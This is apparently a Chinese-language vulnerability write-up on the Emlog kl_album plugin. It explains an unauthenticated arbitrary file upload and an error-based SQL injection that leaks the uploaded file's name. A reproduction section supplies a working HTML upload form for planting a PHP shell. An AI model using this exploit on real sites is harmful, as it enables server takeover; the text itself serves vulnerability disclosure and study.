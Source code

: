 从上面的代码中我们发现，对于之前传入的\$\_type这个变量在这个函数里根本就没有起到任何左右，函数中定义的\$imtype
=
array(\'jpg\',\'png\',\'jpeg\',\'gif\');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

    $extension  = strtolower(substr(strrchr($filename, "."),1));
    $uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
    $fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
    $attachpath = $uppath . $fname;
    ...
    ...
    ...
    if(@!move_uploaded_file($tmpfile ,$attachpath)){

这里我们可以发现上传的文件名是：

    $fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是echo
\'kl\_album\_successed\';。难道，我们需要暴力破解shell名字？

我们返回kl\_album\_ajax\_do.php，可以发现上传的if语句中有如下代码：

    $result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})");

这里将\$\_FILES\[\'Filedata\'\]\[\'name\'\]直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。所以所以，这里我们正好用到这个特性，通过报错可以将\$upfname这个字段爆出来，这也就是我们上传成功的shell名字。如何报错？上传文件名里加个单引号即可。

### 漏洞复现

    <form id="exp" method="post" enctype="multipart/form-data">
    <p>target url > <input id="url" type="text" style="width: 300px"></p>
    <p>shell file > <input type="file" name="Filedata"></p>
    <input name="album" type="hidden" value="111111" >
    <p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
    </form>

保存为html，本地打开：

![](./resource/Emlog相册插件前台SQL注入+Getshell/media/rId28.png)

填入目标url，并选择要上传的shell。（如图，我这里是info\'.php，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl\_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php访问可见shell：

![](./resource/Emlog相册插件前台SQL注入+Getshell/media/rId29.png)

这里给出独自等待的一份payload：

    #!/usr/bin/env python
    # -*- coding: gbk -*-
    # -*- coding: utf-8 -*-
    # Date: 2015/4/30
    # Created by 独自等待
    # 博客 http://www.waitalone.cn/